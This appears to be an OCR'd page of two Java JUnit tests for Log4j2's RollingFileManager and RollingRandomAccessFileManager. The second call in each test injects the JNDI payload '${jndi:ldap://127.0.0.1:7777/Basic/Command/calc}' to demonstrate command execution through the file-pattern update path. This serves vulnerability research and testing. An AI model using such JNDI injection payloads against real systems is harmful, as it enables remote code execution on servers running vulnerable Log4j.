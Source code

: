 **RollingFileManager.getFileManager()**
```
    @Test
    public void getFileManagerRollingFileManagerTest(){
        TriggeringPolicy policy = CronTriggeringPolicy.createPolicy(new DefaultConfiguration(), "true", "0 * * * * ?");
        RolloverStrategy strategy = DefaultRolloverStrategy.newBuilder()
                .withMax(String.valueOf(3))
                .withConfig(new DefaultConfiguration())
                .withFileIndex("min")
                .build();
        PatternLayout layout = PatternLayout.newBuilder()
                .withConfiguration(new DefaultConfiguration())
                .withPattern("%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n")
                .build();
        Configuration config = new DefaultConfiguration();

        // First execute add manager into MAP
        RollingFileManager.getFileManager(
                "app.log", "", true, false, policy, strategy, null, layout, 1024, true, false, null, null, null, config);

        // Second call executes updateData from MAP
        RollingFileManager.getFileManager(
                "app.log", "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}", true, false, policy, strategy, null, layout, 1024, true, false, null, null, null, config);

    }
```

**RollingRandomAccessFileManager.getFileManager()**

```
  @Test
    public void getFileManagerRollingRandomAccessFileManagerTest(){
        TriggeringPolicy policy = CronTriggeringPolicy.createPolicy(new DefaultConfiguration(), "true", "0 * * * * ?");
        RolloverStrategy strategy = DefaultRolloverStrategy.newBuilder()
                .withMax(String.valueOf(3))
                .withConfig(new DefaultConfiguration())
                .withFileIndex("min")
                .build();
        PatternLayout layout = PatternLayout.newBuilder()
                .withConfiguration(new DefaultConfiguration())
                .withPattern("%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n")
                .build();
        Configuration config = new DefaultConfiguration();

        // First execute add manager into MAP
        RollingRandomAccessFileManager.getFileManager(
                "app.log", "", true, false, policy, strategy, null, layout, 1024, true, false, null, null, null, config);

        // Second call executes updateData from MAP
        RollingRandomAccessFileManager.getFileManager(
                "app.log", "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}", true, false, policy, strategy, null, layout, 1024, true, false, null, null, null, config);

    }
```
